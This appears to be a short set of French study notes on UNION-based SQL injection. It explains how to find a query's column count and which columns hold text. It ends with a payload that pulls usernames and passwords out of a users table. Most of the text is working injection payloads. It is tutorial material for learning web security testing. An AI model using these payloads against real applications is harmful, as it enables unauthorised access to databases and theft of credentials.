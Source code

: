 Permet d'exécuter plus d'une requête et de concaténer les résultats
* Doit avoir le même nombre de colonnes entre les requêtes
* les types de données doivent être compatibles
	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

	
# Trouver le nombre de colonnes
ORDER BY X où est le numéro de la colonne pas d'erreur tant que <= nb colonnes
```
	'ORDER BY 1-- 
	'ORDER BY 2-- 
	...
	Jusqu'à une erreur
```
	
UNION SELECT NULL avec un nombre de null. Cause une erreur si pas égale au nombre de colonnes
```
	' UNION SELECT NULL-- 
	' UNION SELECT NULL,NULL-- 
	' UNION SELECT NULL,NULL,NULL--
	...
```
Sous Oracle ajouter ```FROM dual```


	
# Trouver le type de données
Utiliser un string litéral pour trouver les collones ayant un type string. Pas d'erreur si c'est bon.
```
	‘UNION SELECT ’a',NULL,NULL,NULL--
	‘UNION SELECT NULL,'a',NULL,NULL--
	‘UNION SELECT NULL,NULL,'a',NULL--
	‘UNION SELECT NULL,NULL,NULL,'a'--
```
# Retourner plusieurs collones avec une seule
concatène les strings avec ~ entre les 2
```
‘ UNION SELECT NULL, username || ‘~’ || password FROM users--
```